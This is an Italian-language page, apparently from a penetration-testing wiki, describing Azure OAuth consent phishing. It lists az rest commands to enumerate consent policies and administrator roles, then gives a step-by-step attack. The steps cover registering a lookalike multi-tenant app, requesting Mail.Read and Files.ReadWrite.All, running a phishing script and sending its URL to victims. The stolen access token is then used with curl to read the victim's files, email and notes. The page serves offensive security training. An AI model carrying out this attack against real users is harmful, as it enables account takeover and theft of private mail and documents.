 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Le applicazioni Azure** sono configurate con i permessi che potranno utilizzare quando un utente acconsente all'applicazione (come enumerare la directory, accedere ai file o eseguire altre azioni). Nota che l'applicazione agirà per conto dell'utente, quindi anche se l'app potrebbe richiedere permessi di amministrazione, se l'**utente che acconsente non ha quel permesso**, l'app **non sarà in grado di eseguire azioni amministrative**.

### Permessi di consenso dell'app

Per impostazione predefinita, qualsiasi **utente può dare consenso alle app**, anche se questo può essere configurato in modo che gli utenti possano acconsentire solo a **app di editori verificati per permessi selezionati** o addirittura **rimuovere il permesso** per gli utenti di acconsentire alle applicazioni.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

Se gli utenti non possono acconsentire, gli **amministratori** come `GA`, `Application Administrator` o `Cloud Application` `Administrator` possono **consentire le applicazioni** che gli utenti potranno utilizzare.

Inoltre, se gli utenti possono acconsentire solo a app che utilizzano permessi **a basso rischio**, questi permessi sono per impostazione predefinita **openid**, **profile**, **email**, **User.Read** e **offline_access**, anche se è possibile **aggiungere di più** a questo elenco.

E se possono acconsentire a tutte le app, possono acconsentire a tutte le app.

### 2 Tipi di attacchi

- **Non autenticato**: Da un account esterno crea un'applicazione con i **permessi a basso rischio** `User.Read` e `User.ReadBasic.All`, ad esempio, phishing di un utente, e sarai in grado di accedere alle informazioni della directory.
- Questo richiede che l'utente vittima del phishing sia **in grado di accettare app OAuth da tenant esterni**.
- Se l'utente vittima del phishing è un amministratore che può **consentire qualsiasi app con qualsiasi permesso**, l'applicazione potrebbe anche **richiedere permessi privilegiati**.
- **Autenticato**: Dopo aver compromesso un principale con privilegi sufficienti, **crea un'applicazione all'interno dell'account** e **phishing** di un **utente privilegiato** che può accettare permessi OAuth privilegiati.
- In questo caso puoi già accedere alle informazioni della directory, quindi il permesso `User.ReadBasic.All` non è più interessante.
- Probabilmente sei interessato a **permessi che richiedono un amministratore per concederli**, perché un utente normale non può dare alcun permesso alle app OAuth, ecco perché devi **phishing solo quegli utenti** (magari più avanti parleremo di quali ruoli/permessi concedono questo privilegio).

### Gli utenti possono dare consenso

Nota che devi eseguire questo comando da un utente all'interno del tenant, non puoi trovare questa configurazione di un tenant da uno esterno. Il seguente cli può aiutarti a comprendere i permessi degli utenti:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- Gli utenti possono acconsentire a tutte le app: Se all'interno di **`permissionGrantPoliciesAssigned`** puoi trovare: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` allora gli utenti possono accettare ogni applicazione.
- Gli utenti possono acconsentire alle app di editori verificati o della tua organizzazione, ma solo per le autorizzazioni che selezioni: Se all'interno di **`permissionGrantPoliciesAssigned`** puoi trovare: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` allora gli utenti possono accettare ogni applicazione.
- **Disabilita il consenso degli utenti**: Se all'interno di **`permissionGrantPoliciesAssigned`** puoi trovare solo: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` e `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` allora gli utenti non possono acconsentire a nulla.

È possibile trovare il significato di ciascuna delle politiche commentate in:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Amministratori dell'Applicazione**

Controlla gli utenti che sono considerati amministratori dell'applicazione (possono accettare nuove applicazioni):
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **Panoramica del Flusso di Attacco**

L'attacco coinvolge diversi passaggi mirati a una azienda generica. Ecco come potrebbe svolgersi:

1. **Registrazione del Dominio e Hosting dell'Applicazione**: L'attaccante registra un dominio che somiglia a un sito affidabile, ad esempio, "safedomainlogin.com". Sotto questo dominio, viene creato un sottodominio (ad es., "companyname.safedomainlogin.com") per ospitare un'applicazione progettata per catturare i codici di autorizzazione e richiedere i token di accesso.
2. **Registrazione dell'Applicazione in Azure AD**: L'attaccante registra quindi un'Applicazione Multi-Tenant nel proprio Tenant di Azure AD, chiamandola con il nome dell'azienda target per apparire legittima. Configura l'URL di Redirect dell'applicazione per puntare al sottodominio che ospita l'applicazione malevola.
3. **Impostazione dei Permessi**: L'attaccante imposta l'applicazione con vari permessi API (ad es., `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Questi permessi, una volta concessi dall'utente, consentono all'attaccante di estrarre informazioni sensibili per conto dell'utente.
4. **Distribuzione di Link Malevoli**: L'attaccante crea un link contenente l'ID client dell'applicazione malevola e lo condivide con gli utenti target, ingannandoli per concedere il consenso.

## Esempio di Attacco

1. Registrare una **nuova applicazione**. Può essere solo per la directory corrente se si utilizza un utente della directory attaccata o per qualsiasi directory se si tratta di un attacco esterno (come nell'immagine seguente).
1. Impostare anche l'**URI di reindirizzamento** all'URL previsto dove si desidera ricevere il codice per ottenere i token (`http://localhost:8000/callback` per impostazione predefinita).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Quindi creare un segreto per l'applicazione:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Selezionare i permessi API (ad es. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Eseguire la pagina web (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** che richiede i permessi:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **Invia l'URL alla vittima**
1. In questo caso `http://localhost:8000`
6. **Le vittime** devono **accettare il prompt:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Usa il **token di accesso per accedere ai permessi richiesti**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Altri Strumenti

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Controlla [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) per imparare come configurarlo.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Post-Exploitation

### Phishing Post-Exploitation

A seconda delle autorizzazioni richieste, potresti essere in grado di **accedere a diversi dati del tenant** (elenco utenti, gruppi... o persino modificare impostazioni) e **informazioni dell'utente** (file, note, email...). Poi, puoi utilizzare queste autorizzazioni per eseguire queste azioni.

### Post Exploitation dell'Applicazione

Controlla le sezioni Applicazioni e Principale di Servizio della pagina:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## Riferimenti

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
